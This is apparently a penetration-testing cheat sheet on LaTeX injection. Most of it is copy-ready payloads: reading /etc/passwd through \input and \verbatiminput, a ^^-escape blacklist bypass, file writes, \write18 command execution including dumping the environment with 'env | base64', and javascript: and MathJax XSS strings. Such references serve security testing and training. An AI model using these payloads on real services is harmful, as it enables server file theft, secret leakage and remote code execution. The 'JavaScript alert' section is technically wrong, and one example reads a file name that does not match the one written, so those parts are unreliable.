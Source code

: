 # LaTeX Injection

> LaTeX Injection is a type of injection attack where malicious content is injected into LaTeX documents. LaTeX is widely used for document preparation and typesetting, particularly in academia, for producing high-quality scientific and mathematical documents. Due to its powerful scripting capabilities, LaTeX can be exploited by attackers to execute arbitrary commands if proper safeguards are not in place. 


## Summary

* [File Manipulation](#file-manipulation)
    * [Read File](#read-file)
    * [Write File](#write-file)
* [Command Execution](#command-execution)
* [Cross Site Scripting](#cross-site-scripting)
* [Render LaTeX Code into Javascript Alerts](#render-latex-code-into-javascript-alerts)
* [Labs](#labs)
* [References](#references)


## File Manipulation

### Read File

Attackers can read the content of sensitive files on the server.

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

### Write File

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```


## Command Execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```


## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

In [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```

## Render LaTeX Code into Javascript Alerts

### Explanation

To render LaTeX code into Javascript alerts, you can use the `\write18` command to execute shell commands. This command allows you to write the output of a shell command to a file, which can then be included in the LaTeX document. By writing a Javascript alert command to a file and then including that file in the LaTeX document, you can trigger a Javascript alert.

### Example

Here is an example of LaTeX code that triggers a Javascript alert:

```tex
\documentclass{article}
\usepackage{amsmath}
\begin{document}
\title{LaTeX Injection Example}
\author{Author Name}
\date{\today}
\maketitle

\section{Introduction}
This is an example of LaTeX injection.

\section{Math Example}
Here is a simple math equation:
\begin{equation}
E = mc^2
\end{equation}

\section{JavaScript Alert}
\newcommand{\jsalert}[1]{\immediate\write18{echo "alert('#1');" > jsalert.js}}
\jsalert{This is a JavaScript alert from LaTeX!}

\end{document}
```

### Step-by-Step Guide

1. Save the above LaTeX code to a file, for example, `latex_injection_example.tex`.
2. Compile the LaTeX file using a LaTeX compiler, such as `pdflatex`:
   ```sh
   pdflatex --shell-escape latex_injection_example.tex
   ```
   The `--shell-escape` option is required to allow the execution of shell commands.
3. Open the generated PDF file in a web browser that supports Javascript execution.
4. The Javascript alert should be triggered, displaying the message "This is a JavaScript alert from LaTeX!".

## Labs

* [Root Me - LaTeX - Input](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
* [Root Me - LaTeX - Command Execution](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)


## References

- [Hacking with LaTeX - Sebastian Neef - March 10, 2016](https://0day.work/hacking-with-latex/)
- [Latex to RCE, Private Bug Bounty Program - Yasho - July 6, 2018](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
- [Pwning coworkers thanks to LaTeX - scumjr - November 28, 2016](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
